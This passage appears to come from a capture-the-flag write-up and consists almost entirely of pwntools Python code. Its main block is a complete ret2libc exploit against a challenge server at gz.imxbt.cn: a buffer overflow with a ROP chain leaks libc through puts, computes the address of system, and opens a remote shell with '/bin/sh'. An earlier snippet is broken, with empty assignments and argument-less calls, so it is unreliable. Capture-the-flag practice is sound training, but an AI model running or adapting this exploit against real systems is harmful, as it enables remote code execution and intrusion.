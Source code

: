 ```python
offer = 
backdoor = 

io.sendline()
#io.sendline()
#io.sendline()
io.interactive()

```

ret2libc:

```python
from pwn import *
#libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
libc = ELF("/home/feeling/ctf/pwn/她与你皆失/libc.so.6")
e=ELF("/home/feeling/ctf/pwn/她与你皆失/pwn")
p = remote('gz.imxbt.cn',20310)
pop_rdi_ret_addr = 0x401176
ret = 0x40101a
puts_plt = e.plt['puts'] #puts函数的入口地址
read_got = e.got['read']  #puts函数的got表地址
start_addr = e.symbols['_start'] #程序的起始地址
offset = 18
payload = b"a" * offset
payload += p64(pop_rdi_ret_addr)
payload += p64(read_got)
payload += p64(puts_plt)
payload += p64(start_addr)
#attach(p,"b *0x40121e")
#p.recvuntil(b"Welcome to NewStarCTF!!!!")
#pause()
p.send(payload)
read_real_addr = u64(p.recvuntil('\x7f')[-6:].ljust(8, b'\x00'))
print("read_real_addr: ", hex(read_real_addr))
libc_base = read_real_addr - libc.sym["read"]
print("libc_base: ", hex(libc_base))
system_addr = libc_base + libc.sym["system"]
binsh_addr = libc_base + next(libc.search(b"/bin/sh"))
print("system_addr:{}".format(hex(system_addr)))
print("binsh_addr:{}".format(hex(binsh_addr)))
payload = b"a" * offset
payload += p64(ret) #需要添加一个ret，仅仅用于栈平衡
payload += p64(pop_rdi_ret_addr)
payload += p64(binsh_addr)
payload += p64(system_addr)
p.recv()
p.send(payload)
p.interactive()
```

#### useful
